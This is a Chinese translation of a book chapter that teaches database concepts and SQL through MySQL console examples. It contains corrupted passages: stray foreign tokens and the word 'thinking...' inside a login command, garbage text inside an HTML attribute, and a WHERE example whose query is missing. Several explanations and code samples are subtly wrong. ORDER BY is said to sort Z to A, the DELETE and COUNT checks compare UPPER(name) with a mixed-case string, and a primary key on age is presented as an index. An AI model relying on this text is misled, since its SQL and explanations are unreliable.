你看到当 `connect.php3` 文件尝试使用 affy 用户名连接数据库时失败了。这导致显示一个表单，请求输入 root 用户名对应的密码。

表单中的信息由 `common.inc` 文件放入 `$arr_request` 数组。`connect.php3` 文件被修订为在尝试数据库连接时使用 `$arr_request` 中的用户名和密码。

第 6 章"数据库与 SQL"将带你回到基础知识的学习。这次不是阅读关于 PHP 的内容，而是学习一种称为 SQL（*结构化查询语言*的缩写）的数据操作和数据定义语言。

# 数据库与 SQL

数据库以结构化格式存储信息。SQL 是一种用于定义数据库表和列、查询数据库信息以及更新信息的语言。两者结合，使应用程序开发成为可能。

数据库的主题非常广泛。你可以读上一年也无法涵盖它的所有方面。幸运的是，你不必成为数据库专家就能使用它们。本章旨在为你提供足够入门的信息。

数据库是半神奇的程序，让你能够存储信息，然后以后以各种方式检索这些信息。说它们是半神奇的是因为它们在开发过程中节省了大量时间。而且它们在数据定义和查询方式上似乎具有无限的灵活性。

> 如果你从最后一段还没猜出来，我是数据库的忠实粉丝。永远不要尝试在没有数据库的情况下创建互联网应用程序。

有趣的是，SQL 的真正复杂性在于从数据库中选择信息。指定检索哪些信息以及如何呈现这些信息可能相当复杂。幸运的是，本章只涉及 SQL 相对简单的方面。SQL 的棘手部分留到第 14 章"真实世界的 SQL"中再讲。

什么样的信息会被存储在数据库中？关于将大量二进制数据（如图像）存储到数据库中的适当性，争论仍在继续。除此之外，所有类型的信息都会被存储——从浏览器类型列表到分层类别列表。

## 信息与数据有何不同？

数据与信息的区别在于，数据是未组织的，而信息是有组织的。看看下面这个数据示例：

Johnson
David Wilson
Andrew

这是名字列表？还是姓氏列表？是否已经排序？在不组织数据的情况下，这些和其他问题都无法得到权威解答。

下面是应用了一些组织后的同一列表：


 | 名字 | 姓氏 |
|------------|-----------|
|            | Johnson   |
| Andrew     |           |
| David      | Wilson    |

最明显的变化是添加了列来标明名字的类型。此外，名字已按字母顺序排序。我们现在所有问题的答案都有了。

## 从信息到数据库

在信息可以被存储之前，需要先对其进行描述。没有描述，数据库引擎无法确定存储信息的最佳方式，更重要的是，它们将无法在需要时提取信息。

因此，让我们来描述上一节中使用的信息。首先，我们需要一个描述性术语来描述所有信息：

```
patient_names
```

这个术语将我们从具体（即名字）引向一般（所有信息）。下一步描述与每个患者相关的信息：

```
name_first char(40)
name_last char(40)
```

每一条信息在数据库术语中被称为**列**（column）或**字段**（field）。因此，每个患者与两个列名 name_first 和 name_last 相关联。所有列合在一起构成一条**记录**（record）。而所有记录合在一起则构成一张**表**（table）：

| 表： | 患者姓名 | |
|--------|-----------------|---|
|        | 字段 1： | 字段 2： |
|        | 名字 | 姓氏 |
| 记录 1： | | Johnson |
| 记录 2： | Andrew | |
| 记录 3： | David | Wilson |

你现在已了解使用数据库所需的基本术语：

- **列**（**Columns**）—也称为字段，列是独立的信息片段。在大多数情况下，字段是原子的；也就是说，它们无法被拆分成更小的单元。例如，一个人的姓名不是原子的，但一个人的名字是原子的。
- **记录**（**Records**）—相关字段的集合构成一条记录。例如，描述平装书《*指环王*》（*Lord of the Rings*）所需的所有字段可以构成一条记录。这些字段可以包含具体数据，如书名、出版年份、页数和出版商。
- **表**（**Tables**）—同类记录的集合。表中的所有记录包含相同的字段集。通常，表名使用复数形式。例如，`paperback_books` 和 `patient_names` 都是数据库表的好名字。

## 创建唯一记录

无需详细信息，表中的每条记录应该是唯一的，以便在需要时可以轻松检索。用于检索记录的值被称为其**键**（**key**）。这个键与用于访问 PHP 数组变量的键完全类似。

在设计数据库表时，最好创建一个名为 `key_{table_name}` 的字段来保存键值。例如，如果表名为 `patient_names`，则键字段应称为 `key_patient_names`。该字段中的值从第一条记录添加到表中时开始为 1，之后每次添加记录时递增 1。

## 每条记录的重要字段

除了键字段之外，我在生产环境（相对于研究或开发环境）中使用的所有表都有 `dte_created` 和 `dte_modified` 字段。大多数时候这些字段不会被使用。然而，在需要时，它们对于审计和归档过程至关重要。

## 关于字段数据类型的几句话

大多数数据库在设计字段时提供丰富的数据类型可供选择。遗憾的是，似乎很少有数据库对每种数据类型的命名达成一致。为简单起见，我通常使用 *integer*（整数）、*numeric*（用于浮点数）和 *varchar*（用于字符串数据）。

> **注意**
> 使用可变长度的 varchar 数据类型比使用固定长度的 char 数据类型使数据库空间效率高得多。如果将字段定义为 `char(100)`，数据库会确保放入该字段的所有数据都是 100 个字符长。如果该字段的数据只有 15 个字符，那么将在末尾追加 85 个空格以补足差额。

> **提示**
> 如果确实使用 char 数据类型，请使用 PHP 的 trim 函数移除数据末尾的多余空格。

## 设计用于存储电子邮件的字段

在创建数据库表之前，需要确定它将包含哪种类型的信息。大多数数据库表包含描述现实世界对象的信息——可以被描述为名词的事物。例如，表可能保存关于人、汽车、笔、网站访问者、库存项目以及许多其他多不胜数的事物的信息。

让我们构建一个用于保存电子邮件的数据库表。电子邮件涉及哪些数据？就本书而言，以下信息字段被假定是所需的全部：

- **日期**（**Date**）—我所有的日期信息都使用这种格式存储：YYYY-MM-DD HH:MM:SS。也就是说，年-月-日 时-分-秒。时间以 24 小时格式存储。总共需要 19 个字符来表示特定的日期和时间。正如你稍后将看到的，这种格式便于快速排序和比较。
- **发件人**（**From**）—发送消息的人（或实体）的电子邮件地址。我不知道电子邮件地址的最大长度，但它可能相当长。

## SQL 简介

SQL 最初由 IBM 开发，是一种由委员会演化的语言。它由美国国家标准协会（ANSI）的数据库语言委员会 X3H2 控制。关于 ANSI 的信息可以在 http://web.ansi.org/default.htm 找到。如果你想阅读 SQL 的官方标准文档，它被称为 ANSI X3.135-1992 (R1998)，下载费用为 220 美元。幸运的是，你会发现大多数常用的 SQL 知识都在本书中。

SQL 是一种功能极其强大且有用的语言。然而，尽管功能强大，日常应用开发只需要使用四个语句：

- **insert**—向数据库表添加数据
- **update**—修改数据库表中的数据
- **select**—查询数据库表
- **delete**—从数据库表中删除数据

若要使用 SQL 的所有功能，还需要另外三个语句：

- **create**—创建数据库表和其他项目
- **alter**—更改数据库表的定义
- **drop**—删除数据库表和其他项目

以下部分展示如何使用 create、alter 和 drop SQL 语句操作数据库表。

## SQL Create Table 语句

创建表的语句可能很复杂，但对于简单的表，以下语法就足够了。（有关更多详细信息，请参阅你的 MySQL 或其他数据库文档。）

```
create table {table_name} (
  {field1_name} {field1_data_type}
  ,{field2_name} {field2_data_type}
);
```

> 末尾的分号可能不需要；这取决于你使用的数据库。

**注意**

mysql 实用程序（随 MySQL 发行版提供）可用于执行 SQL 语句。以下命令序列在 php_book 数据库中创建名为 email_messages 的表：

```
$ # 连接到 mysql 程序。
$ mysql -u root -ppassword php_book
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 1 to server version: 3.22.16a-gamma

Type 'help' for help.

mysql> # 创建 php_book 数据库。
mysql> create database php_book;
Query OK, 1 row affected (0.32 sec)

mysql> # 告诉 mysql 为将来的
mysql> # sql 语句所用数据库是 php_book。
mysql> use php_book;
```


 ```
Database changed

mysql> # Execute the sql create table' statement.
mysql> create table email_messages (
    ->    key_email_messages INTEGER
    ->   ,date_created       VARCHAR(19)
    ->   ,date_updated       VARCHAR(19)
    ->   ,date_email         VARCHAR(19)
    ->   ,addr_from          VARCHAR(100)
    ->   ,addr_reply_to      VARCHAR(100)
    ->   ,subject            VARCHAR(100)
    ->   ,message            MEDIUMTEXT
    -> );
Query OK, 0 rows affected (0.34 sec)
```

```
mysql> # use the mysql desc command to describe the
mysql> # table just created.
mysql> describe email_messages;
```

| Field | Type | Null | Key | Default |
|-------|------|------|-----|---------|
| key_email_messages | int(11) | YES |  | NULL |
| date_created | varchar(19) | YES |  | NULL |
| date_updated | varchar(19) | YES |  | NULL |
| date_email | varchar(19) | YES |  | NULL |
| addr_from | varchar(100) | YES |  | NULL |
| addr_reply_to | varchar(100) | YES |  | NULL |
| subject | varchar(100) | YES |  | NULL |
| message | mediumtext | YES |  | NULL |

暂时忽略表描述中的 Key、Default 和 Extra（未显示）列。Null 列告诉你，当插入记录时某字段的数据未提供，MySQL 是否会为该字段提供默认值。例如，你可能不在乎是否提供了传真号码，因此使用 NOT NULL 标志很有用。然而，知道电话号码字段没有信息（即它为 null）对于确保数据一致性很有帮助。例如，你可以编写一个例程来显示所有电话号码为 null 的记录，以便进行研究以找到正确的信息。

### 注意

> 在表中使用 null 可以区分空字段和从未存放过信息的字段。

下面的示例展示了如何创建带有 NOT NULL 字段的表：

```
$ # Connect to the php_book database.
$ mysql -u root -ppassword php_book
mysql> create table test (
    -> a VARCHAR(10)
    -> ,b VARCHAR(10) NOT NULL
    -> );
```

```
mysql> describe test;
+-------+------------+------+-----+---------+-------+
| Field | Type       | Null | Key | Default | Extra |
+-------+------------+------+-----+---------+-------+
| a     | varchar(10)| YES  |     | NULL    |       |
| b     | varchar(10)|      |     |         |       |
+-------+------------+------+-----+---------+-------+
```

注意，当描述 NOT NULL 列时，Null 列为空。当尝试插入数据而未指定 b 字段时，MySQL 会提供默认值。但是，当 a 字段的信息缺失时，不会提供默认值，而是使用 NULL 值。

```
mysql> insert into test (a,b) values ('aaa', 'bbb');
mysql> insert into test (a) values ('aaa');
mysql> insert into test (b) values ('bbb');
mysql> select * from test;
+------+-----+
| a    | b   |
+------+-----+
| aaa  | bbb | <-- 第一条记录。
| aaa  |     | <-- 第二条记录。
| NULL | bbb | <-- 第三条记录。
+------+-----+
```

第一条 insert 语句（第一条记录）为两个字段都指定了信息。正如预期的那样，显示时两个字段都包含信息。第二条 insert 语句没有为字段 b 提供值。然而，由于字段 b 被创建为 NOT NULL 字段，MySQL 提供了一个默认值——在这个例子中是一个空字符串。你可以使用以下 SQL 证明该字段为空：

```
mysql> select * from test where b = '';
+-----+--+
| a   | b  |
+-----+--+
| aaa |   |
+-----+--+
```

### 提示

> 使用两个单引号表示空字段。

第三条 insert 语句没有为字段 a 提供值。因为字段 a 被创建为可以提供默认值。你可以像这样查看包含 null 值的记录：

```
mysql> select * from test where a is null;
+-----+-----+
| a   | b   |
+-----+-----+
| NULL| bbb |
+-----+-----+
```

## SQL Alter Table 语句

SQL alter table 语句用于操作数据库表中的列，具有以下基本形式：

```
alter table {table_name} add column {field_name} {field_data_type};

alter table {table_name} change column {existing_field_name}
{new_field_name} {new_field_data_type};

alter table {table_name} drop column {existing_field_name}
```

以下各节将分别讨论这些语句。

### 使用 Add Column 选项

使用 alter table 语句向 email_messages 表添加一个名为 temp_field 的列，如下所示：

```
$ # Connect to the mysql program.
$ mysql -u root -ppassword
Welcome to the MySQL monitor. Commands end with ; or \g.
mysql> use php_book;
Database changed
mysql> alter table email_messages add column
    -> temp_field
    -> integer;
mysql> describe email_messages;
```

| Field | Type | Null | Key | Default |
|---------|---------|------|-----|---------|
| key_email_messages | int(11) | YES | | NULL |
| date_created | varchar(19) | YES | | NULL |
| date_updated | varchar(19) | YES | | NULL |
| date_email | varchar(19) | YES | | NULL |
| addr_from | varchar(100) | YES | | NULL |
| addr_reply_to | varchar(100) | YES | | NULL |
| subject | varchar(100) | YES | | NULL |
| message | mediumtext | YES | | NULL |
| temp_field | int(11) | YES | | NULL |

在上面的示例中，添加的字段已被高亮显示。注意，该字段已被添加到字段列表的末尾。表中字段的顺序很少会对数据库的操作产生影响。

### 使用 Change Column 选项

**alter table** 命令也可以用来更改字段的数据类型，如下所示：

```
$ # Connect to the mysql program.
$ mysql -u root -ppassword
Welcome to the MySQL monitor. Commands end with ; or \g.
mysql> use php_book;
Database changed
mysql> alter table email_messages change column temp_field
    -> temp_field
    -> varchar(25);
Query OK, 0 rows affected (0.11 sec)
Records: 0  Duplicates: 0  Warnings: 0

mysql> describe email_messages;
```

| Field | Type | Null | Key | Default |
|---------|---------|------|-----|---------|
| key_email_messages | int(11) | YES | | NULL |
| date_created | varchar(19) | YES | | NULL |
| date_updated | varchar(19) | YES | | NULL |
| date_email | varchar(19) | YES | | NULL |
| addr_from | varchar(100) | YES | | NULL |
| addr_reply_to | varchar(100) | YES | | NULL |
| subject | varchar(100) | YES | | NULL |

| message | mediumtext | YES | NULL |
| temp_field | varchar(25) | YES | NULL |

9 rows in set (0.00 sec)

**describe** 命令的输出显示字段数据类型已从 `integer` 更改为 `varchar(25)`。然而，**alter table** 命令的输出更有趣：

Records: 0  Duplicates: 0  Warnings: 0

直觉是优秀程序员的指引力量，推断特定消息原因的能力也是如此。试一试：在没有任何额外信息的情况下，花点时间思考为什么 MySQL 可能会显示关于 Duplicates 和 Warnings 的消息。这些零意味着什么？

当两个数据项，例如 `'Wales, NY'` 和 `'Wales, TN'`，从 `varchar(100)` 转换为 `varchar(5)` 时会发生什么？答案可以通过实验找到！

```
$ # Connect to the mysql program.
$ mysql -u root -pp informations 눈눌고  thinking...
Welcome to the MySQL monitor. Commands end with ; or \g.
mysql> use php_book;
Database changed
mysql> # create a test table.
mysql> create table test1 (
    -> test varchar(100)
    -> );
Query OK, 0 rows affected (0.00 sec)

mysql> # insert the first record.
mysql> insert into test1
    -> (test)
    -> values
    -> ('Wales, NY');
Query OK, 1 row affected (0.15 sec)

mysql> # insert the second record.
mysql> insert into test1
    -> (test)
    -> values
    -> ('Wales, TN');
Query OK, 1 row affected (0.00 sec)

mysql> # display the two records just inserted.
```

```
mysql> select * from test1;
+-----------+
| test      |
+-----------+
| Wales, NY |
| Wales, TN |
+-----------+
2 rows in set (0.09 sec)
```

```
mysql> # change the field data type.
mysql> alter table test1 change column test
    -> test
    -> varchar(5);
Query OK, 2 rows affected (0.02 sec)
Records: 2  Duplicates: 0  Warnings: 2
```

```
mysql> # display the information again.
mysql> select * from test1;
+-------+
| test  |
+-------+
| Wales |
| Wales |
+-------+
2 rows in set (0.00 sec)
```

```
mysql> # delete the testing table.
mysql> drop table test1;
Query OK, 0 rows affected (0.00 sec)
```

正如你可能已经猜到的，MySQL 将字段中的信息截断为五个字符。注意，`alter table` 语句提到了两个警告；这让你知道数据在截断过程中已经丢失。在修改任何表之前创建数据库备份是一个非常明智的做法。

当 `integer` 字段转换为 `varchar(4)` 字段时会发生什么？我将让你自己发现答案。只需按照上面的示例，适当更改数据类型，并在 SQL **insert** 命令中插入数字——不带周围的单引号——而不是文本。

### 使用 Drop Column 选项

从表中删除列很容易。你只需要像这样使用 `alter table` 语句：
```


 ```
$ # 连接到 mysql 程序。
$ mysql -u root -ppassword
```

```
Welcome to the MySQL monitor. Commands end with ; or \g.
mysql> use php_book;
Database changed
mysql> alter table email_messages drop column
    -> temp_field;
Query OK, 0 rows affected (0.00 sec)
Records: 0 Duplicates: 0 Warnings: 0
```

```
mysql> describe email_messages;
+-------------------+--------------+------+-----+---------+
| Field             | Type         | Null | Key | Default |
+-------------------+--------------+------+-----+---------+
| key_email_messages| int(11)      | YES  |     | NULL    |
| date_created      | varchar(19)  | YES  |     | NULL    |
| date_updated      | varchar(19)  | YES  |     | NULL    |
| date_email        | varchar(19)  | YES  |     | NULL    |
| addr_from         | varchar(100) | YES  |     | NULL    |
| addr_reply_to     | varchar(100) | YES  |     | NULL    |
| subject           | varchar(100) | YES  |     | NULL    |
| message           | mediumtext   | YES  |     | NULL    |
+-------------------+--------------+------+-----+---------+
8 rows in set (0.00 sec)
```

## 警告

> 在删除列之前备份你的数据库。一旦删除，列将无法恢复！

## SQL Drop Table 语句

删除表比删除字段更加简单。只需要指定表名：

```
$ # 连接到 mysql 程序。
$ mysql -u root -ppassword
```

```
Welcome to the MySQL monitor. Commands end with ; or \g.
mysql> use php_book;
Database changed
mysql> drop table email_messages;
Query OK, 0 rows affected (0.00 sec)
```

如果你需要删除表中的记录而不是删除表本身，请使用 SQL **delete** 命令。

## 警告

> 在删除表之前备份你的数据库。一旦删除，表将无法恢复！

## SQL Insert 语句

insert 语句向表中添加记录。其基本语法是

```
insert into
  {table_name}
( {column_list} )
values
( {value_list} )
```

insert 语句中指定的所有字符串字面量必须用单引号括起来。value_list 部分中的值数量必须等于 column_list 部分中的列数量。

以下是 insert 语句的实际示例：

```
mysql> create table test (
    -> a integer,b VARCHAR(10)
    -> );
mysql> insert into test
    -> (a, b)
    -> values
    -> (134, 'aaa');

mysql> drop table test;
```

insert 语句的更高级形式具有如下语法：

```
insert into {table_name}
( {column_list} )
{select_statement}
```

这种语法允许你从一个或多个表中选择信息，并在一个语句中插入到新表中。不过，我们将在第 14 章"真实世界 SQL"中更详细地讨论 select 语句。

## SQL Update 语句

update 语句用于修改表中的信息。其基本语法是

```
update {table_name}
set {column_name} = {expression}...
where {where_clause}
```

update 语句最常见的用途之一是对记录中的字段进行递增，可能看起来像这样：

```
mysql> create table test (a integer);
mysql> insert into test (a) values (134);
mysql> insert into test (a) values (100);
mysql> select * from test;
+-----+
| a   |
+-----+
| 134 |
| 100 |
+-----+
mysql> update test set a = a + 1;
Query OK, 2 rows affected (0.00 sec)
Rows matched: 2  Changed: 2  Warnings: 0
mysql> select * from test;
+-----+
| a   |
+-----+
| 135 |
| 101 |
+-----+
```

请注意，两条记录都被单个 update 语句更改了。实际上，该 update 语句旨在更新表中的每条记录。当你需要执行全局更新时，这种行为非常有用。例如，给所有员工加薪 15%：

```
update employees set salary = salary * 1.15;
```

当然，你不可能每年都负担得起给所有人加薪。对于那些艰难的年份，你需要带有 where 子句的 update 语句。

```
update employees
set salary = salary * 1.15
where last_name = 'medinets';
```

> **提示**
> 
> 在使用 SQL update 语句时，必须用单引号括起字符串字面量。

MySQL 有大量的函数，所有函数都可以在 update 语句的 expression 部分使用。例如，你可以确保字段中的所有信息都使用大写字符，如下所示：

```
update employees set last_name = upper(last_name);
```

## SQL Select 语句

**select** 命令从表中选择记录。其基本语法是

```
select {field_list}
from {table_list}
where {where_clause}         <- 过滤
group by {column_list}       <- 聚合
order by {column_list}       <- 排序
having {having_clause}       <- 聚合后过滤
```

**select** 语句是 SQL 中最复杂的，但同时也可以很简单，因为 **where**、**group by**、**order by** 和 **having** 子句都是可选的。

### 字段列表

**select** 语句最基本的形式是

```
SELECT
  *
FROM
  select01;
```

生成的记录集：

| str_name_first | str_name_last | int_age |
| -------------- | ------------- | ------- |
| Florence | Alexander | 86 |
| Charles | Berlowitz | 1 |

该语句从测试表中选择所有记录的所有字段。星号告诉数据库返回所有字段的信息。如果你只需要特定字段，**select** 语句可能看起来像这样：

```
SELECT
  str_name_first
  ,int_age
FROM
  select01;
```

**生成的记录集：**

| str_name_first | int_age |
|----------------|---------|
| Florence       | 86      |
| Charles        | 1       |

该语句仅从测试表的所有记录中选择名字和年龄字段。

可以使用许多函数来操纵结果集中信息的格式化方式。我喜欢用的一个技巧是直接将 HTML 标签放入结果集。例如：

```
SELECT
  CONCAT(CONCAT(CONCAT(CONCAT(CONCAT(CONCAT(
    '<option value="', int_age)
    ,'">')
    ,str_name_first)
    ,' ')
    ,str_name_last)
    ,'</option>')
FROM
    select01;
```

**生成的记录集：**

| concat(concat(concat(concat(concat(concat('<... |
|--------------------------------------------------|
| <option value="86">Florence Alexander</option>   |
| <option value="1">Charles Berlowitz</option>     |
| <option value="10">Charles Brown</option>        |
| <option value霭选项的值="8">Florence Longstein</option>     |
| <option value="64">Florence Henderson</option>    |

**注意**

当 SQL 语句返回的列是使用一个或多个函数的结果时，它们被称为*计算列*或*虚拟列*。

你可以看到，当这个结果集在 HTML 表单中显示为选择下拉框时，它会多么方便。我也确信你认识到列名 `concat(concat(concat` 对你来说毫无用处。下一节解决了这个问题。

### 提供字段名称别名

你可以使用 **AS** 关键字为字段提供别名。下面的示例为表中所有 60 岁以上的人生成 option HTML 标签，展示了这是如何完成的：

```
SELECT
  CONCAT(CONCAT(CONCAT(CONCAT(CONCAT(CONCAT(
  '<option value="', int_age)
  ,'">')
  ,str_name_first)
  ,' ')
  ,str_name_last)
  ,'</option>') AS item <-- 别名在这里创建！
FROM
  select01
WHERE
  int_age > 50
ORDER BY
  int_age;
```

生成的记录集：

| item |
|------|
| <option value="64">Florence Henderson</option> |
| <option value="86">Florence Alexander</option> |

**AS** 关键字在使用计算列时非常有用。在处理来自多个表的结果集且字段名称不同时，它也很有用。例如：

```
SELECT
  fname as str_name_first
FROM
  table01;
```

```
SELECT
  str_name_first
FROM
  table01;
```

你可以使用相同的 PHP 代码来处理这些语句的结果集，因为多亏了 **AS** 关键字，字段名称是相同的。

### From 子句

from 子句列出为查询提供信息的所有表。现在，我们只从一个表中选择信息。第 14 章"真实世界 SQL"将展示如何从多个表中选择数据。

### Where 子句

当你需要比"选择所有记录"更精确时，请使用 where 子句。例如：

生成的记录集：

| str_name_first | int_age |
|----------------|---------|
| Florence       | 86      |

该语句选择所有 str_name_first 字段以字母"F"开头的记录。请注意使用了 UPPER 函数。以这种方式使用时，来自数据库的所有数据在评估 LIKE 运算符之前都会转换为大写字符。

> **提示**
> 
> 过滤记录时，大多数时间应该使用 UPPER 函数。这种技术让你忽略数据的实际大小写，并假设所有数据都是大写的。某些数据库执行 LIKE 操作时是不区分大小写的，但我喜欢可移植的 SQL 语句。如果你使用 UPPER 函数，就可以忽略这个问题。

SQL 允许你组合尽可能多的表达式来形成你的 where 子句。例如，要查找名字以"F"或"G"开头的所有人，请使用以下语句：

 ```
SELECT
  str_name_first
  ,int_age
FROM
  select01
WHERE
  UPPER(str_name_first) LIKE 'F%'
  OR UPPER(str_name_first) LIKE 'G%';
```

生成的记录集：

| str_name_first | int_age |
|----------------|---------|
| Florence       | 86      |

你也可以使用 AND 运算符来连接表达式。例如，查找所有名字以 F 开头且年龄超过 65 岁的人：

```
SELECT
  str_name_first
  ,int_age
FROM
  select01
WHERE
  UPPER(str_name_first) LIKE 'F%'
  AND int_age > 65;
```

生成的记录集：

| str_name_first | int_age |
|----------------|---------|
| Florence       | 86      |

下面展示了 `where` 子句的正式语法：

where_clause = expr (and | or) expr——`where` 子句由一个或多个通过 AND 或 OR 运算符连接的表达式组成。

expr = field_name > | >= | = | <> | <= | < (field_name | literal)——表达式可以是任意字段通过大于、大于等于、等于、不等于、小于等于或小于运算符与任意字段或字面值连接。

expr = field_name like (field_name | literal)——表达式可以是任意字段通过 LIKE 运算符与任意字段或字面值连接。LIKE 运算符是一个简单的模式匹配运算符。

expr = field_name is null——表达式可以检查字段的值是否为空。

expr = field_name is not null——表达式可以检查字段的值是否不为空。

expr = (where_clause)——可以使用括号来覆盖默认的运算符优先级顺序。

### ORDER BY 子句

`order by` 子句可以对结果进行从 Z 到 A 的排序，如下所示：

```
SELECT
  str_name_first
  ,int_age
FROM
  select01
ORDER BY
  str_name_first;
```

生成的记录集：

| str_name_first | int_age |
| -------------- | ------- |
| Charles        | 1       |
| Florence       | 86      |

DESC 关键字（descending 的缩写）可用于从 Z 到 A 排序，如下所示：

```
SELECT
  str_name_first
  ,int_age
FROM
  select01
ORDER BY
  str_name_first DESC;
```

生成的记录集：

| str_name_first | int_age |
|---|---|
| Florence | 86 |
| Charles | 1 |

### GROUP BY 子句

当需要使用聚合函数时，使用 `group by` 子句。聚合函数（如 min 和 max）一次会对多条记录进行计算。为了有意义地讨论它们，`select01` 表必须包含两条以上的记录。在以下示例中，我添加了三条记录。完整的记录集如下所示（新增记录以粗体显示）：

| str_name_first | str_name_last | int_age |
|---|---|---|
| Florence | Alexander | 86 |
| Charles | Berlowitz | 1 |
| Charles | Brown | 10 |
| Florence | Longstein | 8 |
| Florence | Henderson | 64 |

MySQL 手册对聚合函数做了很好的说明，因此这里不再列举。不过，一些示例将有助于澄清聚合的概念。

首先，让我们查找出有多少人拥有相同的名字：

```
SELECT
  str_name_first
  ,count(*)
FROM
  select01
GROUP BY
  str_name_first;
```

生成的记录集：

| str_name_first | count(*) |
|---|---|
| Charles | 2 |
| Florence | 3 |

你还可以查出每个名字中的最大年龄：

```
SELECT
  str_name_first
  ,MAX(int_age) AS OLDEST_PERSON
FROM
  select01
GROUP BY
  str_name_first;
```

生成的记录集：

| str_name_first | OLDEST_PERSON |
|---|---|
| Charles | 10 |
| Florence | 86 |

### HAVING 子句

`having` 子句可以根据聚合函数的结果过滤返回的记录。它只在记录聚合完成且所有虚拟列计算完毕后才会生效。

在上一节中，你看到了一个用于确定每个名字分组中最大年龄的查询。该查询显示最年长的 Charles 是 10 岁，最年长的 Florence 是 86 岁。如果你需要进一步细化查询，只列出最大年龄超过 65 岁的分组，可以写成这样：

```
SELECT
  str_name_first
  ,MAX(int_age) AS OLDEST_PERSON
FROM
  select01
GROUP BY
  str_name_first
HAVING
  OLDEST_PERSON > 65;
```

生成的记录集：

| str_name_first | OLDEST_PERSON |
|---|---|
| Florence | 86 |

请注意，字段别名可以在 `having` 子句中使用，这使查询更容易理解。

这个查询并不是 `having` 子句的好例子，因为它的效率不高。按照当前写法，数据库中的五条记录都会被聚合，导致 `having` 子句检查两条记录——最年长的 Charles 和最年长的 Florence。由于 `having` 子句检查的是人的年龄，因此更高效的做法是使用 `where` 子句在聚合之前过滤记录。下面的 SQL 语句使用 `where` 子句过滤掉了五条记录中的四条；因此 `group by` 和 `having` 子句都只需检查一条记录。显然，如果将这个查询运行在包含成千上万条记录的表上，速度会快得多。

```
SELECT
  str_name_first
  ,MAX(int_age) AS OLDEST_PERSON
FROM
  select01
WHERE
  int_age > 65
GROUP BY
  str_name_first;
```

**生成的记录集：**

| str_name_first | OLDEST_PERSON |
|----------------|---------------|
| Florence       | 86            |

更好地使用 `having` 子句是基于一组记录的总和进行过滤。例如，假设你需要计算一月至三月（第一季度）所支付租金的总和，并希望过滤掉总和大于零的记录，以便找出所有拖欠租金的租客。这个例子比使用最大值更合适，因为你是在基于计算字段而不是实际字段进行过滤，这样可以减少用于查找最大值的记录比较次数。比较的记录越少，SQL 语句执行得就越快。

## SQL DELETE 语句

**delete** 命令用于从表中删除记录。其语法为：

```
DELETE
FROM
  {table_name}
WHERE
  {where_clause};
```

**delete** 命令*非常*危险。删除的记录无法恢复。如果没有提供 `where` 子句，所有记录都会被删除。因此，如果你想删除特定记录，务必使用 `where` 子句。例如，下面的语句会从 `select01` 表中删除所有名为 Charles 的人：

```
DELETE
FROM
  select01
WHERE
  UPPER(str_name_first) = 'Charles';
```

如果你需要验证记录确实已被删除，可以在 `select` 语句中使用相同的 `where` 子句：

```
SELECT
  COUNT(*)
FROM
  select01
WHERE
  UPPER(str_name_first) = 'Charles';
```

生成的记录集：

| COUNT(*) |
|----------|
| 0        |

查找结果为零条记录，表明这些记录已被删除。

## 字段定义，再探

在离开数据库和 SQL 主题去开发一个列表维护应用程序之前，我们还需要讨论一些与字段相关的其他杂项主题。

## 使用索引（或关键字段）加速查询

大多数数据库支持索引的概念，以缩短查询运行所需的时间。索引本质上是对一个或多个字段进行预排序，这样数据库就不必扫描每条记录来找到查询请求的信息。

尽管索引非常重要，但计算机速度如此之快，以至于表中需要有成千上万条记录才能注意到速度的提升。因此，至少现在不必担心为数据库表创建索引。找一本更高级的书籍或教程深入讲解索引，并根据需要使用 **alter table** 命令添加索引。例如，下面的 SQL 语句为 `select01` 表中的 `int_age` 字段创建索引：

```
ALTER TABLE
 select01
CHANGE COLUMN
 int_age
 int_age INTEGER PRIMARY KEY;
```

## 使用 AUTO_INCREMENT 创建键

在本章前面的“创建唯一记录”一节中，我提到每条记录都应该是唯一的。然而，如果两条记录相同，就会立即产生几个问题：

- 其中一条是否是重复记录，因而应该删除？
- 是否有两个人或库存项（或其他任何东西）完全相同？

当两条记录相同时，混乱是不可避免的。创建唯一记录的最简单方法是跟踪已创建记录的数量，并将该计数加一后分配给下一条创建的记录。许多数据库（包括 MySQL）都提供了自动实现该技术的方法。

在 MySQL 中，你可以使用如下语句创建自动递增字段：
```


```sql
CREATE TABLE autoi (
  key_autoi INTEGER AUTO_INCREMENT PRIMARY KEY
  ,str_name_first VARCHAR(50)
);
```

现在，该表已定义了一个自增字段，因此在插入记录时，您只需指定名字即可：

```sql
INSERT INTO autoi
  (str_name_first)
VALUES
  ('David');
```

```sql
INSERT INTO autoi
  (str_name_first)
VALUES
  ('John');
```

为了确定 `key_autoi` 字段的值，请使用 `last_insert_id()` 函数：

```sql
SELECT DISTINCT
  last_insert_id()
FROM
  autoi;
```

结果集：

| last_insert_id() |
|------------------|
| 2 |

需要使用 `DISTINCT` 关键字，以便只返回一个值。如果不使用它，MySQL 将为表中的每条记录返回一条记录。不使用 `DISTINCT` 关键字时，结果集将是

| last_insert_id() |
|------------------|
| 2 |
| 2 |

## 本章总结

本章向您介绍了数据库（一种组织数据的方式）和 SQL（一种操作数据的方式）。数据库通过施加秩序，让您将数据转化为信息。数据被描述后，就可以被查询并用于回答问题。

组织数据的一个方面是确定其原子元素或字段。每个字段，如 `str_name_first` 或 `str_name_last`，都包含一个单一的数据项。创建字段的方式存在很多争议。例如，一个电话号码是一个、两个还是三个字段？答案在很大程度上取决于信息将如何使用。例如，如果出于人口统计目的需要区号，那么您至少需要两个字段来存储电话号码。

当相关的字段组合在一起时，它们就形成了一个记录。一个记录中的所有信息都与一个“事物”相关，这个事物可能是一辆车、一个人，甚至是一个概念。例如，一个记录可以保存关于一个概念的信息，例如“有多少年龄在 25 到 45 岁之间、任职超过五年的秘书？”

为了区分一个记录和另一个记录，每个记录都应该是唯一的。如果一个记录不是唯一的，您如何区分与约翰·多伊相关的不同记录？创建唯一记录最简单的技术是维护一个计数器。每次向数据库添加一条记录时，计数器就递增一次，并使用新的数字作为键字段。键字段在记录中始终是唯一的。

当相关的记录组合在一起时，它们就形成了一个表。表保存关于一系列“事物”的信息。例如，一个表可能保存访问您网站的客户信息，另一个表可能保存网络浏览器的列表。

相关的表组合在一起形成数据库。人们可以创建与业务功能相关的数据库（例如会计数据库）或需要解决的问题相关的数据库（如可燃气体储罐数据库）。

